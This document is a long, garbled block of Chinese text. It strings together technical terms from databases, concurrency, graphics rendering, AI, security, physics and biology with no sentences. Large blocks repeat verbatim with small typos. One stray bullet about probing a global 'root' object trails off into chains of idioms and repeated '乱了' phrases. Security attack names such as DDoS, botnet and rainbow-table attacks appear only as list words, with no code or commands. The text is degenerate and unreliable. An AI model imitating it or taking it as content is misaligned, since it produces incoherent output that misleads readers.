回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSA

*   首先，我们将尝试识别自身的全局对象`root`（注：原文可能指 global，此处根据上下文保留 root 引用但需说明可能存在混淆）并继续确定我们可以访问的内置模块和核心函数命名空间列表集合数据资源池信息内容详情资料完整无缺全部收录详尽记录详细记载全面掌握透彻了解彻底查明仔细研究深入分析细致观察精细考察精心调研周密调查详尽探究细心钻研专注探索潜心求证努力查证辛苦证明艰难证实困难验证不易确认费尽周折勉强达成好不容易取得竭尽全力拼命争取煞费苦心思索推敲反复琢磨再三斟酌多方考量各种设想多种方案多样选择丰富选项广泛覆盖全面涉及多方面关联多领域交叉多学科融合综合应用集成创新跨界合作协同办公高效运作卓越表现杰出成就非凡贡献伟大创造辉煌历史灿烂文明源远流长博大精深包罗万象丰富多彩琳琅满目应有尽有目不暇接眼花缭乱应接不暇叹为观止美不胜收心旷神怡流连忘返意犹未尽回味无穷余音绕梁三日不绝荡气回肠动人心魄震撼心灵感动天地泣鬼神通广大无孔不入无处不在无所不在难以捉摸变幻莫测扑朔迷离错综复杂纷繁芜杂杂乱无序乱七八糟一塌糊涂乱作一团混乱不堪人仰马翻手忙脚乱不知所措慌了神乱了阵脚乱了方寸乱了分寸乱了节奏乱了步伐乱了秩序乱了规矩乱了章程乱了计划乱了部署乱了安排乱了调度乱了规划乱了布局乱了结构乱了组织乱了架构乱了框架乱了系统乱了网络乱了平台乱了界面乱了菜单乱了按钮乱了输入框乱了弹窗乱了对话框乱了警告条乱了进度栏乱了工具栏乱了导航栏乱了搜索框乱了登录态乱了权限表乱了角色分配乱了用户组分类乱了部门划分乱了项目立项乱了任务指派乱了日程安排乱了会议纪要乱了通知公告乱了政策文件乱了规章制度乱了操作流程乱了对照流程乱了执行标准乱了审核机制乱了监督体系乱了反馈渠道乱了投诉热线乱了求助电话乱了应急方案乱了危机公关乱了媒体回应乱了舆论引导乱了舆情监测乱了风险控制乱了合规审查乱了法律遵循乱了道德准则乱了行业规范乱了国际标准乱了国家标准乱了地方标准乱了企业内部制度乱了部门间协调乱了跨部门协作乱了资源整合乱了信息共享乱了数据交换乱了接口定义乱了协议版本乱了 API 文档乱了 SDK 包管理器乱了 NodeJS 运行时环境混乱系统架构设计模式原则指南手册教程视频课程书籍论文研究报告白皮书技术博客开发者社区开源项目贡献者列表捐赠渠道技术支持知识库常见问题解答新手引导进阶技巧实战演练案例分析失败教训成功经验最佳实践源码解析运行原理底层机制内核逻辑算法优化性能调优安全加固隐私保护访问控制权限管理审计日志异常检测入侵防御威胁情报攻击模拟渗透测试漏洞挖掘代码审查自动化构建持续集成部署运维监控告警通知灾备恢复高可用架构负载均衡数据库迁移缓存策略消息队列分布式系统微服务治理容器化编排弹性伸缩无服务器计算 Serverless 边缘计算物联网安全移动应用合规数字签名加密解密对称非对称杂项其他备注说明注意事项风险提示免责声明版权信息商标信息商誉价值品牌资产人力资源绩效管理培训发展企业文化社会责任公益慈善环境保护节能减排绿色办公可持续发展碳中和计划数字化转型战略升级技术路线图产品规划市场定位竞争对手分析 SWOT 模型五力模型波特矩阵价值链成本领先差异化聚焦化蓝海战略红海竞争颠覆创新商业模式画布精益创业敏捷开发 Scrum 看板极限编程结对编程代码重构测试驱动开发持续交付 DevOps 文化团队建设和沟通效率工具链集成开发环境版本控制系统仓库管理分支策略合并请求评审流程 CI/CD 流水线构建脚本部署配置基础设施即服务容器镜像编排调度器监控系统日志分析性能瓶颈定位资源利用率评估容量规划故障排查应急预案演练恢复时间目标恢复点对象备份策略容灾方案冗余设计多活架构数据同步复制延迟容忍一致性问题 CAP 模型 BASE 理论数据库选型 NoSQLNewSqlPolyglotORM 框架持久层抽象实体映射关系查询语言存储过程事务隔离级别并发控制死锁检测优化索引构建分表分库读写分离主从切换故障转移在线迁移蓝绿部署金丝雀发布滚动更新特性开关灰度放量压测扩容缩容日志审计安全扫描漏洞修复补丁升级依赖管理许可证合规开源协议软件供应链攻击面缩减最小权限原则纵深防御零信任架构身份认证单点登录多因素认证 OAuth2 OIDC SAML Kerberos LDAP 集成目录服务邮箱系统集成即时通讯工具协作平台文档管理系统知识库系统工作流引擎表单构建器低代码开发平台无头浏览器自动化测试性能压测混沌工程故障注入依赖分析包升级冲突解决版本号语义化命名规范模块导出导入循环引用作用域提升变量 hoistingconst let var scope closure 高阶函数柯里组合偏函数部分应用惰性求值响应式编程事件驱动异步回调 Promisefuturesasyncawait 并发控制并行处理线程池进程管理内存泄漏检测堆栈溢出防止信号捕获系统调用接口底层 API 扩展库第三方模块私有组件公共依赖内部服务网关代理过滤器中间件异常拦截日志过滤请求限流频率限制防重放攻击 CSRFXSS 防御 CORS 策略 HTTPS/TLS 证书吊销链验证 DNS 污染防火墙 IDSIPSWAFIAuditTrailSIEMSOARMTTMQTTHTTP/2 HTTP/3QUICWebSocketgRPCMicroservicesEvent-driven messagingPubSubPatternCommand-Query Responsibility segregation(CQRS) Event sourcingSaga patternOutbox PatternTransactional OutboxCDC change data captureETLPipelineOperatorData LakehouseLake to cloud 迁移上云混合多云架构私有云边缘计算雾计算区块链分布式账本智能合约数字孪生元宇宙游戏开发虚拟现实增强现实扩展内容识别渲染引擎物理模拟路径追踪光线反射折射阴影遮挡剔除 LOD 材质贴图法线凹凸置换光照烘焙体积云雾天气系统昼夜循环日夜交替四季变换植被生长腐烂生命周期管理 AI 驱动 NPC 行为决策树状态机有限自动机粒子系统网格生成纹理合成骨骼绑定蒙皮变形动画曲线关键帧插值样条曲线贝塞尔曲面 NURBS 建模程序化几何体参数化设计装配约束干涉检查碰撞检测刚体动力学柔体力学布料模拟烟火效果流体仿真容积云雨滴大小分布蒸发降水过程雷电形成闪电定位雷暴预警地质灾害监测地震波传播火山喷发预测海啸波浪模型洋流环流海图导航 AIS 定位雷达扫描声纳探测卫星遥感地理信息系统 GIS 地图叠加图层投影转换坐标系统经纬度墨卡托高斯 - 克吕格 UTMWeb  MercatorWGS84EPSG 代码格式文件类型二进制编码压缩算法差分隐私联邦学习知识图谱实体关系推理路径规划最短路径最小生成树网络流最大匹配二分图染色四色定理博弈论 Nash 均衡零和正和合作者背叛囚徒困境纳什均衡帕累托最优社会福利函数效用理论期望值方差标准差协方相关系数回归分析主成分分析因子分析聚类分组层次结构决策树随机森林梯度提升神经网络层结构激活函数反向传播动量调整学习率衰减正则化 dropoutBatch normalization 残差连接注意力机制 Transformer 架构自下而上自顶向下编码解码器多头关注掩码生成预训练微调迁移学习对抗样本可解释性热力图剪枝量化知识蒸馏模型压缩边缘侧推理端云协同隐私计算同态加密安全多方协议联邦学习差分隐私可信执行环境 TEE 机密计算去中心化身份 DID 通证经济激励机制共识证明工作量权益质押授权许可智能合约审计工具验证器节点矿工 validator staker 流动性挖矿 staking 治理代币空投钓鱼攻击勒索软件 APT 组织零日漏洞供应链污染侧信道攻击故障注入时序异常竞争条件竞态状态转换死锁饿死木桶效应羊群效蝴蝶效应破窗理论旁观者效应沉没成本损失厌恶风险偏好概率评估蒙特卡洛模拟贝叶斯推断马尔科夫链隐变量期望最大化算法高斯混合模型均值协方差矩阵特征值奇异值分解线性代数数值分析有限元方法差分法变分原理极小曲面测地线最短距离三角测量球面几何欧几里得非欧空间拓扑结构同胚异构连续光滑离散阶跃混沌运动自组织临界性相变临界点序参量自由度标度律无量纲化普适类重整群动态重正化量子隧穿隧道效应零点能真空衰变大爆炸奇点对称破缺霍金辐射黑洞熵信息论香农定理信道容量纠错编码汉明距离海明码巴利克密码算法 RSA 椭圆曲线 ECDHEDiffie-Hellman 随机数生成器伪随机真随机混沌映射梅森素数大整数分解格密码后量子加密量子密钥分发 BB84 协议 E91 实验贝尔不等式纠缠态薛定谔猫叠加态坍缩观测者效应多世界解释哥本哈根诠释隐变量理论局域性非定域性与非局域关联延迟选择思想图灵机通用计算 Church-Turing 论定理停机问题不可判定希尔伯特第十问题黎曼猜想波尔兹曼熵热力学第二定律开姆洛方程范德瓦尔气体状态方程理想气体温标绝对零度相态固液气等离子体超流体超导临界磁场约瑟夫森结量子点自旋电子学拓扑绝缘体态内能焓吉布斯自由能亥姆霍兹函数克劳修斯 - 克拉佩龙方程勒夏特列原理酸碱中和沉淀溶解平衡氧化还原电位电极电势标准氢电极参比溶液缓冲体系 pH 计指示剂电位滴定库仑定律电磁感应法拉第圆盘发电机变压器阻抗导纳矢量图谐振电路 LCRLC 振荡器滤波器低通高通带阻声优噪信噪比特频采样率奈奎斯特速率数字信号处理卷积脉冲响应傅里叶变换拉普拉斯 Z 传递函数极点零点最小相位非因果系统延迟环节滞后超前控制 PID 增益 K 积分常数 PD 控制器 PI 调节器自动导航 SLAM 激光雷达 LiDAR 视觉 SLAMORB-SLAMElastic Graph Factorization (EGF)稠密匹配特征跟踪光流法帧间差分背景减除运动目标检测语义分割实例计数物体识别 OCR 自然语言处理分词停止词去停用词 TF-IDFDNA 序列比对蛋白质折叠基因编辑 CRISPR-Cas9 表观遗传学甲基化转录因子启动子增强子剪接位点内含子外显子非编码区假基因印记 X 染色体失活中心粒线粒体叶绿体质膜内皮细胞基底膜毛细血管网淋巴系统造血干细胞分化增殖凋亡衰老端酶端粒长度癌症转移靶向治疗抗体药物偶联物 ADC 免疫检查抑制剂 PD-1/CTLA-4CAR-TTCR 工程化 T 细胞 NK 细胞激活剂疫苗载体腺病毒慢病毒质粒非编码 RNA microRNAsiRNALncARNCRFAMIRISCirculating tumor cell (CTC)循环肿瘤细胞外泌体液活检影像组学深度学习 MRI CT PETPET/CTfusion 注册配准分割重建后处理三维打印增材制造减材加工激光切割 3D 雕刻 CNC 机床 CAMCADCAECMSERPSCRMWFPaaSSaaSaas/Saassingle sign-onSSO MFA 多因素认证双因子认证生物特征识别虹膜指纹面部识别声纹步态行为分析情绪感知语音情感计算机器翻译自然语言生成 NLG 文本摘要命名实体抽取 NER 关系抽取 RE 语义角色标注 SRSemAnt 相似度词向量词义消歧句法分析依存解析语法错误纠正逻辑推理常识问答思维链 Chain-of-thought CoT 反事实思考 Counterfactual reasoning 多模态融合视觉 - 语言对齐图文匹配 VQA 视觉问答 OCR + NLP 手写体识别打印文本复原文档结构化表格理解表单填充知识图谱构建实体链接关系路径查询图嵌入 Graph Embedding 属性网络异构图推理元学习小样本 Zero-shot Few-shot 迁移通用 AI AGI 强人工智能弱机器意识测试图灵实验奇点技术奇点临近超智能失控对齐问题价值负载损失函数梯度下降反向传播动量优化 Adam SGD 批量归一化残差结构注意力机制 Transformer Encoder-Decoder Self-attention Cross attention Positional embedding Masked language modeling 预训练语言模型 LLM 大型通用模型多模态大模型具身机器人感知决策规划控制 SLAM 导航避障路径跟踪轨迹生成机械臂运动学动力学仿真逆解正解奇异点冗余自由度力控视觉伺服学习模仿编程代码补全自动测试自动化运维监控告警日志分析性能调优故障诊断根因定位资源调度服务网格 IstioEnvoy 代理 Sidecar 模式 GatewayAPI 负载均衡器限流熔断降热升级扩缩容高可用部署蓝绿灰发布滚动更新金丝雀特征开关多租户隔离虚拟专用网 VPN 零信任架构微分段防火墙威胁情报沙箱执行环境蜜罐诱捕红队对抗攻防模拟渗透测试漏洞扫描修复补丁管理密钥生命周期证书托管私钥公钥非对称加密数字签名哈希算法盐值存储彩虹表攻击暴力破解字典覆盖离线破解 Rainbow table hash 碰撞中间人窃听 DNS 劫持 CC AttackDDoS 反射放大 SYN Flood 慢速 SYN 洪水 UDP FloodICMP Flood 应用层 DDoS Botnet 僵尸网络挖矿程序暗网 TOR 混合网络 onion routing 多层代理匿名化去中心化身份 DID 自主权凭证可撤销性隐私保护最小权限零信任多租户隔离虚拟化容器编排服务网格 API 网关反向代理负载均衡熔断器限流器监控日志链路追踪分布式事务强一致性 CAP BASECPK 协议最终一致乐观锁悲观锁主从复制读写分离缓存穿透击穿雪崩失效本地存储内存溢出网络超时线程死锁竞态条件原子操作 CAS 自旋锁信号量互斥锁读写锁细粒度粗粒度隔离级别脏读不可重复写入幻读 MVCC 多版本并发控制行级列级分桶分区分片副本一致性冗余容错灾难恢复备份策略热备冷备异地归档对象存储块存储文件系统索引寻址 B+Tree 哈希表链表栈队列堆排序快速归并计数基数选择算法最近邻搜索范围查询模糊匹配字符串编辑距离 Levenshtein 相似度 Jaccard 余弦夹角 Pearson 